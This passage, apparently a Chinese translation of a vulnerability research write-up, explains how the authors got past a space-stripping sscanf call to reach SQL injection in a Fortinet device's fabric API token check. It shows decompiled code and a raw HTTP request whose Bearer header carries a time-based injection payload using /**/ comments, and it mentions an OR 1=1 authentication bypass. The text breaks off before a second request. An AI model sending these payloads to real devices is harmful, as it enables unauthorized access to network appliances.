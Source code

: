 现在，对于那些想知道为什么上述注射不起作用的人（经验丰富的人已经知道），让我们重点回答这个问题。  
  
我们在构建最终查询之后使用有效载荷设置了一个断点AAAAAA' or sleep(5)-- -'。  
  
断点命中——检查最后的查询发现了一些意想不到的事情。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrXeXs5jvxa5zfA9iaYFJ6KC7QiaBzKDEEkrsbScyficg0QibdBt8Nq6DVQw/640?wx_fmt=png&from=appmsg "")  
  
如你所见，我们的单引号成功注入，但其后的所有内容都被悄无声息地删除了。这是 Fortinet 的功能吗？  
  
或者，查询是否存在问题？  
  
提醒一下，这里是将我们的受控输入插入查询之前的函数调用序列：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXr9NKyc0AnOibAjS1icpUPUhnQFHJf8NCAjicXgxiaLyl4cqB8pcicDqmTuaQ/640?wx_fmt=png&from=appmsg "")  
  
get_fabric_user_by_token当然，之前的一个调用是_fabric_access_check。让我们再一次回顾一下该代码，并仔细看看。  
  
```
__int64 __fastcall fabric_access_check(__int64 a1){  __int64 v1; // rdi  __int64 v2; // rax  _OWORD v4[8]; // [rsp+0h] [rbp-A0h] BYREFchar v5; // [rsp+80h] [rbp-20h]unsigned __int64 v6; // [rsp+88h] [rbp-18h]  v1 = *(_QWORD *)(a1 + 248);  v6 = __readfsqword(0x28u);  v5 = 0;memset(v4, 0, sizeof(v4));  v2 = apr_table_get(v1, "Authorization");if ( (unsignedint)__isoc23_sscanf(v2, "Bearer %128s", v2) != 1 )    return0;  v5 = 0;if ( (unsignedint)fabric_user_db_init()    || (unsignedint)refresh_fabric_user()    || (unsignedint)get_fabric_user_by_token((constchar *)v4) )  {    return0;  }else  {    return2 * (unsignedint)((unsignedint)update_fabric_user_expire_time_by_token((constchar *)v4) == 0);  }}
```  
  
  
现在明白了吗？非常简单。  
  
这个__isoc23_sscanfC 函数用于提取我们的输入——根据其格式字符串，它会在第一个空格处停止读取。这意味着我们不能在注入的查询中包含空格。经典之作。  
  
但当然，我们都已经存在了足够长的时间来记住过去的美好时光 - 以及古老的 MySQL 注释技巧：/**/。  
  
是时候把它掸掉灰尘并看看它的实际效果了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXr1hnQnmQfrGVaGlQULbw5dh5DVtEbssiarFHXa9u00eE9Hw2uwXnG4TA/640?wx_fmt=png&from=appmsg "")  
  
对于那些在家跟随的人来说，这是原始的 HTTP 请求：  
  
```
GET/api/fabric/device/status HTTP/1.1Host: 192.168.8.30Authorization: Bearer AAAAAA'/**/or/**/sleep(5)--/**/-'
```  
  
  
我们相信您也能感受到我们的喜悦：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXriaF836cKHWEtKzyhhUyoibojhektgjhDRvWwibg7cq0icPnyXKkkqOY0tw/640?wx_fmt=png&from=appmsg "")  
  
现在让我们回到 80 年代（也称为现代 Fortinet），用经典的OR 1=1.  
  
这让我们可以完全绕过令牌检查，如果您希望检测漏洞的存在而又不全力进行利用，那么这尤其方便：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrqDOu2wqAWgiaKcGHTiaVWLgXODNzSEhfj5dSPG9ljia78MMciczjIpqia6Q/640?wx_fmt=png&from=appmsg "")  
  
对于那些在家跟随的人来说，这是原始的 HTTP 请求：  
  